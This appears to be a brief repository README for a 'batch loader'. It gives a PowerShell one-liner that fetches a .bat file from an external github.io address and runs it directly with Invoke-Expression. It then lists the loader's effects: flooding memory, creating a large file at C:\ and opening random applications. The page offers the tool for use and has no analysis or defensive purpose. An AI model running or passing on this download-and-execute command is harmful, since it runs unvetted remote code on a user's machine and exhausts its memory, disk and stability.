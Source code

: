 batch loader
----------------------------------
- b1 loader 
- ```powershell -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://luzisdev.github.io/b-1.bat').Content"```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
